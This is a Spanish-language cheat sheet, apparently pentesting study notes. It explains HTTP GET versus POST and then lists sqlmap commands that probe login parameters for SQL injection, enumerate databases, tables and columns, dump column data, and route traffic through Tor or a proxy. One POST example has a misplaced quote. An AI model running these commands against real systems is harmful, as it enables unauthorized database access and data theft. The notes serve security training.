 # Métodos HTTP: GET vs POST

| **GET**                                                                                       | **POST**                                                                        |
| --------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------- |
| Solicita los datos de un servidor.                                                            | Envia datos al servidor, a menudo datos de un formulario.                       |
| Datos enviados en la **URL** de la solicitud.                                                 | Datos se envían en el **cuerpo** de la solicitud **HTTP**.                      |
| Parámetros visibles en la **URL** del navegador.                                              | Parámetros **no** visibles en la **URL**  del navegador.                        |
| Solicitud limitada por la longitud máxima de la **URL.** Varía según el navegador y servidor. | No hay limitación de tamaño en los datos enviados en el cuerpo de la solicitud. |
**EJEMPLO GET:** `http://www.example.com/index.php?username=user&password=pass123`

**EJEMPLO POST:** 
```http
POST /login HTTP/1.1
Host: www.example.com
Content-Type: application/x-www-form-urlencoded

username=user&password=pass123
```
# GET Request con SQLMap:

- Se analiza **user=admin** y **pass=admin** en la **URL** para detectar posibles inyecciones **SQL**.
```bash
sqlmap -u 'http://www.example.com/login.php?user=admin&pass=admin'
```
# POST Request con SQLMap:

- Se analiza  **user=admin** y **pass=admin** en el **cuerpo** de la solicitud para detectar posible SQLi.
```bash
sqlmap -u 'http://www.example.com/login.php --data 'user=admin&pass=admin'
```
# Solicitud HTTP con SQLMap

# Comandos básicos de la herramienta SQLMap
#### Data base
- Devuelve todas las bases de datos
```bash
sqlmap -r /home/kali/sqli.txt -v 3 -p parametro_vuln --dbs --tamper=space2comment
```
#### Tabla
- Devuelve las tablas de una DB específica
```bash
sqlmap -r /home/kali/sqli.txt -v 3 -p parametro_vuln -D DB_name --tables
```
#### Columnas
- Devuelve las columnas de una DB y tabla específica
```bash
sqlmap -r /home/kali/sqli.txt -v 3 -p parametro_vuln -D DB_name -T Table_name --columns
```
#### Datos
- Devuelve los DATOS de una columna específica
```bash
sqlmap -r /home/kali/sqli.txt -v 3 -p parametro_vuln -D DB_name -T Table_name  --dump -C name,name,name
```
---
# Usar TOR con SQLMap
```bash
sqlmap -u 'http://www.example.com' --tor --tor-type=SOCK5 --time-sec 11 --check-tor --level=5 --risk=3 --threads=5
```
# Usar un PROXY con SQLMap
```bash
sqlmap -u 'http://www.example.com' --proxy='https://127.0.0.1:8080'
```
